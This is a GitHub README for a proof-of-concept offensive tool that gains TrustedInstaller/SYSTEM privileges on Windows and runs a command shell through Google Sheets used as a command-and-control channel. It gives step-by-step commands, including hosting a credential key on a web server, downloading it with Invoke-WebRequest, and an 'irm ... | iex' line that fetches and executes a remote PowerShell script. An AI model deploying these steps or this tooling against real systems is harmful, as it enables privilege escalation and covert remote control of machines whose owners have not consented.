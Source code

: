 # TrustedInstallerPOC-GC2-Sheet

A simple Proof of Concept in Powershell/Go to spawn a new shell as NT Authority\System using Google Sheets as a C2 interface. Read more about how this PoC works on this [blog about TrustedInstaller](https://fourcore.io/blogs/no-more-access-denied-i-am-trustedinstaller) and [GC2-sheet](https://github.com/looCiprian/GC2-sheet). It is important to note that this should be executed as a user which has SeDebugPrivileges. This repository leverages forked repositories: looCiprian/GC2-sheet and FourCoreLabs/TrustedInstallerPOC.

## Configuration

The Powershell script ti2.ps1 pulls nathansb2022/GC2-sheet-Scripted, nathansb2022/TrustedInstallerPOC-GC2-Sheet, and go1.21.12.windows-amd64.zip. Lastly, ti2.ps1 is configured to pull your Google service account .json key. See below for alternative method. For Google Sheets and Drive setup reference [GC2-Sheet-Scripted](https://github.com/nathansb2022/GC2-sheet-Scripted).

## POC

1. Clone the repository

```
$ git clone https://github.com/nathansb2022TrustedInstallerPOC-GC2-Sheet.git
```

2. Ensure you have a web server hosting your Google service account .json key or drop in GC2-Sheet-Scripted-Master

```
$ python3 -m uploadserver 80
```

3. Optional: If you are adding the .json key manually remove line 42 from ti2.ps1

```
Invoke-WebRequest -Uri $keyFileUrl -UseBasicParsing -OutFile ".\master\GC2-sheet-Scripted-master\$myKey"
```

4. Edit ti2.ps1 and define variables

```
$myUrl = ""
$myKey = ""
$mySheetId = ""
$myDriveId = ""
```

6. Either call the ti2.ps1 or execute it in go

```
$ .\ti2.ps1
```
```
$ irm http://$myUrl/ti2.ps1 | iex
```
```
$ go run ti $myKey $mySheetId $myDriveId
```


This will spawn a new cmd shell with TrustedInstaller privileges in Google Sheets which can be confirmed by running the command `whoami /all`

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

## API

- RunAsTrustedInstaller
  - Use the `RunAsTrustedInstaller` function to pass any executable to be run with TrustedInstaller privileges.
